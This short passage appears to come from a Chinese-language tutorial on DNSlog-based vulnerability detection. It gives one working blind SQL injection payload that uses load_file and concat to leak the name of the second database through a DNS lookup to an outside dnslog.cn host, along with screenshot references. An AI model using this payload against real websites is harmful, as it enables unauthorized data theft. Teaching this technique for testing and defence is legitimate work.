 ![image-20241124203218977](Dnslog漏洞检测/image-20241124203218977.png)	

```
如果我们想要查询第二个数据库的库名，便可以使用以下的语句去查询
?id=1' and if((select load_file(concat('////',(select schema_name from information_schema.schemata limit 1,1),'.whzrgn.dnslog.cn/wuya'))),1,0) --+
```

![image-20241124203358672](Dnslog漏洞检测/image-20241124203358672.png)	













